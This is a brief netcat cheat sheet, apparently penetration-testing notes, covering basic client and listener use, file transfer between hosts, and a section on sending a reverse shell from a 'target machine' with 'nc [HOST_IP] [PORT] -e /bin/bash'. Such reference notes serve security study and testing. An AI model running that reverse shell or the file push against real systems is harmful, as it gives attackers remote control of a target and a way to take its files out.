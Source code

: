 # Netcat

Detailed cheat sheet available here: [https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

## Basic Client

I.e. connect to an arbitrary port on an IP address:

```bash
$ nc [IP] [PORT]
```

## Basic Listener

I.e. receive connections on an arbitrary port:

```bash
$ nc -lp [PORT]
```

## File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```